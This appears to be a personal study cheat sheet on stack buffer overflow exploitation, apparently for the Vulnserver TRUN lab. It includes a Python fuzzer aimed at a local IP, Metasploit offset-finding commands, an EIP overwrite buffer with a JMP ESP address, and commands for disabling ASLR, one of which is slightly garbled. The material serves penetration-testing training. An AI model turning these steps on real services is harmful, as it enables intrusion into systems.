 # Buffer Overflow \| Buf Exploitation

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%284%29.png)

{% embed url="https://tcm-sec.com/buffer-overflows-made-easy/" %}

{% embed url="https://github.com/gh0x0st/Buffer\_Overflow" %}

\*\*\*\*

### FUZZING

```text
    #!/usr/bin/python
    
    import sys, socket 
    from time import sleep
    
    buffer = "A" * 100
    
    while True: 
        try: 
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.1.35',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode()))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
            sys.exit()
```

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337   
where q is EIP value -&gt; we will get offset  
OFFSET = 2003  
buffer = "A" \* 2003 + "B" \* 4  
EIP will be overwritten with 424242.  
  
badchars  
buffer = "A" \* 2003 + "B" \* 4 + badchars  
find out of place chars  
  
0x625011af JMP ESP - FFE4  
buffer = "A" \* 2003 + "\xaf\x11\x50\x62" + overflow

### ASLR \(BuF Attack\)

ps -aux \| grep {process} _pid will be obtained_

cat /proc/2678/maps

echo 0 &gt; cat /proc/sys/kernel/randomize\_va\_space   
Configurations :   
0 - Static   
1 - Dynamic   
2 - Smartly Dynamic







